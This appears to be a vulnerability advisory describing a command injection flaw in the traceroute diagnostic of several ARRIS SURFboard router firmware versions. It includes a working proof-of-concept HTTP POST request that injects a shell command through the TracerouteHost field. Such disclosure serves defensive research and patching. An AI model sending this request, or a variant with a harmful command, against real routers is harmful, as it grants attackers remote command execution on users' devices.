





# ARRIS Vulnerability

Vendor:ARRIS

Product:SBR-AC1900P、SBR-AC3200P、SBR-AC1200P

Version:1.0.7-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000REKViAAP&c=SURFboard%20Routers#panel4)

1.0.7-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000OlajgAAB&c=SURFboard%20Routers#panel4)

1.0.5-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000RpnMpAAJ&c=SURFboard%20Routers#panel4)

Type:Remote Command Execution


## Vulnerability description

We found an Command Injection vulnerability  in ARRIS router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `setup.cgi` binary:

In the router's `traceroute ` function, `TracerouteHost` is directly passed by the attacker, so we can control the `TracerouteHost` to attack the OS.

As you can see here, the input has not been checked.And then,call the function `scnvram_set` to store this input.

<div  align="center"></div>

As you can see here, in `sub_1DE34` function, the initial input has not checked and cause command injection.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.What’s more interesting is that in the front-end interface, the user’s input is not checked either.

<div  align="center"></div>

> Complete vulnerability verification on SBR-AC1900P product


## PoC

We set `TracerouteHost` as **`%3B%2Fusr%2Fsbin%2Fps%3E.%2Fhack.txt%3B`** , The meaning of this command is **;/usr/sbin/ps>./hack.txt;**，and the router will excute it,such as:

```http
POST /setup.cgi?id=56b9ca80 HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 475
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/setup.cgi?next_file=RgDiagnostics.htm
Cookie: RebootType=1
Upgrade-Insecure-Requests: 1

DiagnosticMode=trace&PingDestinationIP0=&PingDestinationIP1=&PingDestinationIP2=&PingDestinationIP3=&ping_lan_size=64&ping_lan_num=3&ping_lan_interval=1&WANIP0=&WANIP1=&WANIP2=&WANIP3=&ping_wan_size=64&ping_wan_num=3&ping_wan_interval=1&TracerouteHost=%3B%2Fusr%2Fsbin%2Fps%3E.%2Fhack.txt%3B&TracerouteMaxHops=30&TracerouteDataSize=32&TracerouteBasePort=33434&TracerouteResolveHost=0&startping=Start+Test&UtilityStatus=&this_file=RgDiagnostics.htm&next_file=RgDiagnostics.htm
```

<div  align="center"></div>


## Result

<div  align="center"></div>
